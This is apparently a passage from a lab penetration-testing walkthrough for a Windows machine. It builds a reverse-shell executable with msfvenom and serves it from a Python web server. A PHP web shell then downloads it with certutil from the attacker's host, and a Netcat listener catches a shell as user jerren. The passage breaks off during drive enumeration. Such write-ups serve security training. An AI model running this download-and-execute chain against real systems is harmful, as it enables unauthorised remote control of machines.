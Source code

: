 ```bash

After some testing, we discover that our attack machine can only be reached on certain ports. We will be using port 30021 for our reverse shell and port 45332 for a web server to host our payload.

Let’s use Metasploit to create our reverse shell payload.

kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=30021 -f exe -o reverse.exe      
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: reverse.exe

We’ll start a python web server listening on port 45332.

kali@kali:~$ python3 -m http.server 45332                
Serving HTTP on 0.0.0.0 port 45332 (http://0.0.0.0:45332/) ...

Next, we can use our web shell to download the payload to the target with certutil. Note that we need to URL-encode our command.

kali@kali:~$ curl "http://192.168.120.132:45332/cmd.php?cmd=certutil+-f+-urlcache+http://192.168.118.8:45332/reverse.exe+reverse.exe"
****  Online  ****
CertUtil: -URLCache command completed successfully.

Let’s start a Netcat listener on port 30021.

kali@kali:~$ nc -lvnp 30021
listening on [any] 30021 ...

Finally, we will use the web shell to execute our payload.

kali@kali:~$ curl "http://192.168.120.132:45332/cmd.php?cmd=reverse.exe"
...

The Netcat output indicates that we have received our reverse shell:

kali@kali:~$ nc -lvnp 30021
listening on [any] 30021 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.132] 49946
Microsoft Windows [Version 10.0.18363.1139]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>whoami
whoami
medjed\jerren

Escalation
Local Enumeration

While enumerating the C:\ drive, we find an interesting folder: C:\bd.

C:\xampp\htdocs>cd C:\
cd C:\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A41E-B108

```